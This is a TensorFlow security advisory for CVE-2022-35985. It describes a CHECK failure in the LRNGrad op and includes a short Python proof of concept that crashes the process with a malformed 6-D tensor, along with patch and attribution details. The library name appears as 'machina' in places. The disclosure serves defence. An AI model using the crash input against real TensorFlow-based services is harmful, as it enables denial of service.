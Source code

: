 ## TFSA-2022-116: `CHECK` fail in `LRNGrad`

### CVE Number
CVE-2022-35985

### Impact
If `LRNGrad` is given an `output_image` input tensor that is not 4-D, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf
depth_radius = 1
bias = 1.59018219
alpha = 0.117728651
beta = 0.404427052
input_grads = tf.random.uniform(shape=[4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
input_image = tf.random.uniform(shape=[4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
output_image = tf.random.uniform(shape=[4, 4, 4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
tf.raw_ops.LRNGrad(input_grads=input_grads, input_image=input_image, output_image=output_image, depth_radius=depth_radius, bias=bias, alpha=alpha, beta=beta)
```

### Patches
We have patched the issue in GitHub commit [bd90b3efab4ec958b228cd7cfe9125be1c0cf255](https://github.com/machina/machina/commit/bd90b3efab4ec958b228cd7cfe9125be1c0cf255).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
